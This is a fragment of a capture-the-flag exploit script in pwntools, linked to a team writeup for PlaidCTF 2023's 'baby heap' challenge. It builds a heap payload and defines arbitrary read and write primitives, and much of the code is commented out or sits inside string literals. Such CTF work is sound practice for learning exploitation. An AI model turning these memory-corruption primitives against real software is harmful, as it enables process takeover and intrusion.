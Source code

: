 ```py  
"""

x = b''  
for i in range(10):  
   x += p64(0xDEADCAFE+i)

x = bytearray(x)  
idx=0x38  
#x[idx-8:idx] = p64(0x18)  
#x[idx:idx+8] = p64(0x16230)  
#x[idx+8:idx+16] = p64(0x18)  
#x[idx+16:idx+24] = p64(0x20)  # layout fixups...

pause()  
write(0, x)

### TEST ARBWRITE HERE...  
#write(0, b'aaaa')  
#io.interactive()

def arbitrary_write(what, where):  
   assert isinstance(what, int)  
   assert isinstance(where, bytes) and len(where) == 8  
   write(0, p64(what))  
   write(1, where)

def arbitrary_read(what, where):  
   assert isinstance(what, int)  
   assert isinstance(where, bytes) and len(where) == 8  
   write(0, p64(what))  
   read(1, where)

"""  
alloc(10)  
write(0, b'b'*10)  
alloc(10)  
write(0, b'c'*10)  
"""  
io.interactive()  
```  

Original writeup (https://github.com/justcatthefish/ctf-
writeups/tree/master/2023-04-14-PlaidCTF2023/pwn_baby_heap).